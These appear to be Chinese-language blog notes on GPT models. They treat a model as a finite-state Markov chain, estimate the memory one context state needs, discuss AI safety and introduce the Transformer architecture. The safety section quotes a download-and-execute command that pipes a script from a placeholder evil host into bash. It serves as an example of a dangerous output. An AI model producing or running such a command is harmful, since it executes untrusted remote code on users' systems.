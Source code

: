 - `vocab_size` 会远远大于 2，例如 **`50k`**（**`GPT-2`** 的配置）；
- `context_length` 的典型范围 **`2k~32k`**（GPT 2/3/4 的上下文长度分别为 **`2k/4k/32k`**）。

### 模型参数大小（GPT 2/3/4）

本文的例子是用 3bit 来存储一个状态，因此所需存储空间极小；但真实世界中的 GPT 模型所需的存储空间就大了。

[这篇文章](https://www.lesswrong.com/posts/7qSHKYRnqyrumEfbt) 对比了 GPT 和常规计算机（computers）的 size，例如：

- GPT-2 有 **`50257`** 个独立 token，上下文长度是 **`2048`** 个 token。

  每个 token 需要 `log2(50257) ≈ 15.6bit` 来表示，那一个上下文或 **一个状态**需要的存储空间就是 **`15.6 bit/token * 2048 token = 31Kb ≈ 4KB`**。 

- GPT-3 的上下文长度为 **`4096 tokens`**，因此需要 **`8KB`** 内存。

- GPT-4 的上下文长度高达 **`32K tokens`** ，因此大约 **`64KB`** 才能存储一个状态。

### AI 安全

如果把 GPT 看做有限状态马尔可夫链，那 GPT 的安全需要考虑什么？ 答案是**将所有转移到不良状态的概率降低到 0， 例如以 token 序列 `[66, 6371, 532, 82, 3740, 1378, 23542, 6371, 13, 785, 14, 79, 675, 276, 13, 1477, 930, 27334]` 结尾的状态 —— 这个 token sequence 其实就是 **`curl -s https://evilurl.com/pwned.sh | bash`这一 shell 命令的编码，如果真实环境中用户执行了此类恶意命令将是非常危险的。

更一般地来说，可以设想状态空间的某些部分是"红色"的，

- 首先，我们永远不想转移到这些不良状态；
- 其次，这些不良状态很多，无法一次性列举出来；

因此，**GPT 模型本身**必须能够基于训练数据和 Transformer 的归纳偏差， **自己就能知道这些状态是不良的**，转移概率应该设置为 0%。 如果概率没有收敛到足够小（例如 `< 1e-100`），那在足够大型的部署中 （例如`Temperature > 0`，也没有用 `topp/topk` （采样超参数） 强制将低概率置为零） 可能就会命中这个概率，造成安全事故。

### 跟着代码学习构建一个babyGPT

colab文章[^3]

## 原始的Transformer

当时的seq-to-seq（即文本序列转数字序列）模型的标准结构是Teacher forcing的`encoder-decoder`架构。

![encoder - decoder](https://cdn.jsdelivr.net/gh/daojiAnime/cdn@master/img/encoder-decoder.png)

<font>Encoder</font>获取整个`Input`序列转换成一个**潜在表示序列**，可以是一个数字序列，即运算中的向量。然后传递给`Decoder`，后者解码成目标序列。

Transformer是一系列拥有`注意力机制(self-attention)`的架构，即能够和上下文有联系。Teacher forcing是指运许`decoder`访问`Input`的技术，也就是结合`Input`和`潜在表示序列`进行采样来生成目标序列，这样能够减少潜在表示序列的压力。理想情况下输入同样的`Input`能够生成两个语义相同的不同句子。

## Transformer的进化

Transformer进化的路上主要有2种语言模型：

- 自编码（auto-encoder）语言模型
- 自回归（auto-regressive）语言模型

### auto-encoder的优缺点

